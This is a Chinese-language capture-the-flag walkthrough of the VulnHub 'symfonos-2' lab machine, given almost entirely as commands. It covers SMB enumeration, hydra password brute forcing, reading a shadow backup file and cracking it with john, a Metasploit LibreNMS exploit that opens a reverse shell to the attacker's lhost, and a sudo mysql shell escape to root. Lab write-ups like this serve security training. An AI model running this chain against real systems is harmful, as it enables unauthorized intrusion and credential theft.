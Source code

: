 # symfonos-2

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-1（IP：192.168.253.144）

下载：https://www.vulnhub.com/entry/symfonos-2,331/

## Let's go

```
nmap -A 192.168.253.144
```

![](./img/symfonos2-1.png)

>**浏览网站没有任何发现，枚举同样如此**

```
enum4linux -a 192.168.253.144
```

![](./img/symfonos2-2.png)

![](./img/symfonos2-3.png)

> **允许匿名登录，得到 'aeolus' 和 'cronus'**

```
smbclient //192.168.253.144/anonymous
cd backups
get log.txt
```

![](./img/symfonos2-4.png)

```
cat log.txt
```

![](./img/symfonos2-5.png)

![](./img/symfonos2-6.png)

> **查看文件，再次得到用户 'aeolus'**

```
vim user	#将得到用户写入文件
hydra -L user -P password/rockyou.txt  -e ns 192.168.253.144 ftp -f
```

![](./img/symfonos2-7.png)

```
#尝试SSH登录竟然成功了
ssh aeolus@192.168.253.144
password:sergioteamo
```

![](./img/symfonos2-8.png)

```
#利用上面得到的/var/backups/shadow.bak
cat /var/backups/shadow.bak
```

![](./img/symfonos2-9.png)

```
vim hash		#将哈希写入hash
john hash
```

![](./img/symfonos2-15.png)

> **放到服务器上并没有跑出来。。。**

```
#因为部分命令受限使用msf登录
search ssh_login
use 0
show options
set rhosts 192.168.253.144
set username aeolus
set password sergioteamo
```

![](./img/symfonos2-10.png)

```
run
sessions
sessions -u 1
sessions 2
```

![](./img/symfonos2-11.png)

```
netstat
```

![](./img/symfonos2-12.png)

```
#进行端口转发
portfwd add -l 4444 -r 127.0.0.1 -p 8080
```

![](./img/symfonos2-13.png)

```
http://localhost:4444/login
```

![](./img/symfonos2-14.png)

```
search librenms
use 0
show options
set rhosts 127.0.0.1
set rport 4444
set lhost 192.168.253.136
set lport 5555
set username aeolus
set password sergioteamo
run
```

![](./img/symfonos2-16.png)

```
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```

![](./img/symfonos2-17.png)

```
sudo mysql -e '\! /bin/sh'
```

![](./img/symfonos2-18.png)